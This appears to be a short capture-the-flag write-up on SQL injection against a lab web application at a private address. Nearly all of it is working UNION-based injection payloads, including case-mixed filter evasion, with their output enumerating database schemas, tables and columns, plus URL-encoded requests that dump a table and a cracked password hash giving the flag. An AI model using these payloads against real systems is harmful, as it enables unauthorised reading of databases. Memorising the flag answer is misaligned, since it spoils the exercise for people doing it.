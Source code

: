 # SQL Injection

```
1 UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

Surname : |information_schema|,|Member_Brute_Force|,|Member_Sql_Injection|,|Member_guestbook|,|Member_images|,|Member_survey|
```

```
1 UNION ALL SELECT table_name,2 from information_schema.tables

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: db_default
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: users
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: guestbook
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: list_images
Surname : 2

ID: 1 UNION ALL SELECT table_name,2 from information_schema.tables
First name: vote_dbs
Surname : 2
```

list Columns : 
`http://192.168.56.102/\?page\=searchimg\&id\=1+UNION+ALL+SELECT+column_name%2Ctable_name+from+information_schema.columns\&Submit\=Submit\#`

display comment : 
`http://192.168.56.102/?page=searchimg&id=1+UNION+SELECT+concat%28id%2Cchar%2858%29%2Curl%2Cchar%2858%29%2Ctitle%2Cchar%2858%29%2Ccomment%2Cchar%2858%29%29%2C2+FROM+list_images&Submit=Submit#`

If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46: -> albatroz

